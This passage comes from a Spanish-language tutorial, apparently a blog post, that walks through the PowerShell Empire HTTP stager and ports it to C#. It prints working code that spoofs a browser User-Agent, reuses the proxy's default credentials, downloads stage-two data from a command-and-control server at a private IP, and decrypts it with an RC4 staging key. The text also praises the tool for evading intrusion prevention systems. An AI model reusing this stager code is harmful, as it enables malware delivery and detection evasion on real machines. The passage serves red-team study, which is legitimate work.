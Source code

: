 ```console
# PowerShell Create WebClient Object
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
# PowerShell Use Default Web Proxy if Enabled
$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
// C# Create a WebClient Object
WebClient wc = new WebClient();
string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
wc.Headers["User-Agent"] = ua;
wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
```console

Luego, debemos especificar la dirección del servidor, el puerto y la ubicación de destino, en nuestro caso esta es la URL completa http://192.168.6.119:80/CWoNaJLBo/VTNeWw11212/. Después de eso, llamamos al método DownloadData de la clase Web.Client para guardar los datos en la variable $data. Si tienes curiosidad acerca de los datos con tenidos en esta $data (stae 2) generalmente se encuentra en /opt/Empire/data/agent/stagers/http.ps1.

```console
# PoweShell Set Server Address and Download the data.
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t); # Download
 
// C# Set Server Address and Download the data.
string server = "http://192.168.6.119:8081";
string target = "/CWoNaJLBo/VTNeWw11212/";
byte[] data = wc.DownloadData(server + target); // Download
```console

# Comunicación Criptológicamente Segura
 
Una de las mejores cosas de Empire, y por qué es tan difícil de detectar para los IPS, es que asegura criptológicamente la comunicación mediante el uso de cifrado de flujo RC4. Harmj0y, uno de los colaboradores de PowerEmpire, creó una publicación de blog sobre la implementación de RC4 en PowerShell. Te invito a leer sobre ella en su [publicación](https://www.harmj0y.net/blog/powershell/powershell-rc4/)
 
Para que **RC4** funcione, necesitaremos 3 piezas, la **clave ($K)**, un **valor aleatorio (denominado $ IV)** y los **datos (stage 2)**.
 
La **clave** se genera cuando ejecuta su Launcher, en PowerEmpire se llama **StagingKey**.

![pse_stagingkey](/assets/images/pse_stagingkey.png)

```console
// PowerShell Key Value for Decryption
$K=[System.Text.Encoding]::ASCII.GetBytes('fdcece0a22c10f83dccc8f17c95a33d4');
 
// C# Key value for decryption
string key = "fdcece0a22c10f83dccc8f17c95a33d4";
byte[] K = Encoding.ASCII.GetBytes(key);
```console

```